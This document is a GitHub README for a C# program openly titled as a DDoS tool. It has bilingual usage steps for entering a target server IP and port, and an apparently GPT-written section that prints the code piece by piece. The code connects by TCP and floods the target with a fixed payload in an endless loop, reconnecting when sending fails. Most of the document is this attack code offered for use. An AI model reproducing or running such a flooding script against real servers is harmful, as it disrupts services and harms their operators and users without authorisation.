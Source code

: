 # DDOS-by-CS(A DDoS programing by CSharp)

# 简体中文
## 如何使用?
输入服务器IP(域名)  
输入服务器端口  
然后<kbd>回车</kbd>

# English
## How to use?
Input IP or domain name of server.  
Input the port of server.  
Then press <kbd>Enter</kbd>.
<hr>
# GPT的解析：

# 代码功能解析  
这段代码是一个简单的 C# 程序，用于与服务器建立 TCP 连接，并发送数据包到服务器。  
## 导入命名空间：  
```CSharp
using System;
using System.Net;
using System.Net.Sockets;
```
这些命名空间包含了程序中需要用到的类和方法。  
## 声明 Program 类：  
```CSharp
class Program {
    // 程序的入口方法
    public static void Main() {
        // ...
    }
}
```
Main 方法是程序的入口点。  
## 获取服务器 IP 地址和端口号：  
```CSharp
string serverIP;
int serverPort;
Console.Write("服务器    |  Server: ");
serverIP = Console.ReadLine();
while (true) {
    Console.Write("端口      |  Port  : ");
    if (int.TryParse(Console.ReadLine(), out serverPort)) {
        break;
    } else {
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("端口不正确|  Invalid input");
        Console.ResetColor();
    }
}
```
这段代码会提示用户输入服务器的 IP 地址和端口号，并进行验证。  
## 连接服务器：  
```CSharp
TcpClient client = new TcpClient();
try {
    client.Connect(serverIP, serverPort);
    Console.WriteLine("服务器连接成功  |  Connect success.");
} catch (Exception e) {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine("服务器连接失败  |  Unable to connect to server.");
    Console.ResetColor();
}
```
这段代码会创建一个 TcpClient 实例，并使用 Connect 方法连接到指定的服务器。如果连接成功，会输出连接成功的消息，否则会输出连接失败的消息。  
## 获取网络流：  
```CSharp
NetworkStream stream = client.GetStream();
```
这段代码会从 TcpClient 实例获取网络流，用于后续的数据传输。  
## 发送数据包：  
```CSharp
byte[] buffer = System.Text.Encoding.ASCII.GetBytes("DataDataDataDataDataData");
int count = 0;
while (true) {
    count++;
    try {
        stream.Write(buffer, 0, buffer.Length);
        Console.Write("发了第" + count + "次包");
        Console.ForegroundColor = ConsoleColor.Green;
        Console.WriteLine("成功");
        Console.ResetColor();
    } catch (Exception e) {
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("在发送第" + count + "时发送问题" + e.Message);
        Console.ResetColor();
        goto reclient;
    }
}
```
这段代码会循环发送数据包到服务器。每次发送都会将计数器加一，并输出发送成功的消息。如果发送过程中出现异常，会输出发送失败的消息，并通过 goto 语句跳转到 reclient 标签处重新连接服务器。  
总体而言，这段代码的作用是建立 TCP 连接到指定的服务器，并循环发送数据包到服务器。在发送过程中，会输出相应的提示信息。
